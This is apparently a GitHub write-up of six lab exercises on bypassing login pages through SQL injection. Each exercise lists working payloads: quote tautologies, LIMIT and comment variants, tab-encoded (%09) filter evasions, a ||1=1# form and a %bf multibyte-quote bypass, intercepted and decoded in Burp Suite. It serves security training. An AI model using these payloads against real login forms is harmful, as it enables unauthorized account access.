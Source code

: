 # SQL INJECTION

In computing, SQL injection is a code injection technique used to attack data-driven applications, in which malicious 
SQL statements are inserted into an entry field for execution.

## SQL Injection 01

1. To solve this exercise, you need to find a way to bypass the login page using a SQL Injection vulnerability. 

2. You Have a login page and bypass the login page 

3. In this challenge, you will need to bypass the login page using SQL injection. The SQL query looks something like:

       SELECT * FROM user WHERE login='[USER]' and password='[PASSWORD]';
      
4. Generate a error 

       admin'
     
5. Use The paylods and bypass login page

       admin' or '1'='1 --


## SQL Injection 02

1. To solve this exercise, you need to find a way to bypass the login page using a SQL Injection vulnerability. 

2. You Have a login page and bypass the login page 

3. In this challenge, you will need to bypass the login page using SQL injection. The SQL query looks something like:

        SELECT * FROM user WHERE login=''[USER]'' and password=''[PASSWORD]'';
        
4. Generate a error          
        
        admin"
        
5. use This paylods and bypass login page        
        
       admin" or "1"="1 --
        
        
## SQL INJECTION 03       

1. To solve this exercise, you need to find a way to bypass the login page using a SQL Injection vulnerability. 
        
2. You Have a login page and bypass the login page        
        
3. In this challenge, you will need to bypass the login page using SQL injection. The SQL query looks something like:

        SELECT * FROM user WHERE login=''[USER]'' and password=''[PASSWORD]'';       
        
4. Generate a error          
        
        admin'
        
5. Use The paylods and bypass login page 

        admin' or '1'='1 --
        
6. Here no account login because here is limited account use LIMIT         
        
7. Use This type of paylods 

       admin' or '1'='1 LIMIT 1 --
        
        
## SQL INJECTION 04

1. To solve this exercise, you need to find a way to bypass the login page using a SQL Injection vulnerability. 

2. You Have a login page and bypass the login page 

3. Generate a error          
        
        admin'

4. use paylod and try bypass the login page 

        admin' or '1'='1 --              

5. But Here is error ERROR NO SPACE 

6. Use Burp-suite and intercept the request and check the request 

         username=admin%27+or+%271%27%3D%271+--&password=admin

7. Use Burp-Suite Decoder and decode like

          username=admin' or '1'='1 --&password=admin

8. Notice That the paylods don't use SPACE use every + change and write %09 like

            username=admin%27%09or%09%271%27%3D%271%09--&password=admin

And Boom The Login Page bypass


## SQL INJECTION 05

1. To solve this exercise, you need to find a way to bypass the login page using a SQL Injection vulnerability.

2. You Have a login page and bypass the login page 

3. Generate a error          
        
        admin' 

4. use paylod and try bypass the login page 

        admin' or '1'='1 --  

5. But Here is error ERROR NO SPACE

6. Use Burp-suite and intercept the request and check the request 

         
       username=admin%27+or+%271%27%3D%271+--&password=admin

7. Use Burp-Suite Decoder and decode like
        
        username=admin'or'1'='1--&password=admin
        
8. Notice That the paylods don't use SPACE use every + change and write %09 like

        username=admin%27%09or%09%271%27%3D%271%09--&password=admin

9. Don't Bypass The Login Page 

10. Use The Paylods and bypass the login page 

        username=admin%27||1%3D1%23&password=admin

Boom Bypass The Login Page


## SQL Injection 06

1. To solve this exercise, you need to find a way to bypass the login page using a SQL Injection vulnerability. 

2. You Have a login page and bypass the login page

3. Generate a error, But Fails 

6. Use Burp-suite and intercept the request and check the request

         username=admin%27+or+%271%27%3D%271+--&password=admin
         
7. Use Burp-Suite Decoder and decode like

         username=admin'or'1'='1--&password=admin
         
8. Use This Paylods and bypass login page

         username=admin%bf%27+or+1=1+--+&password=admin
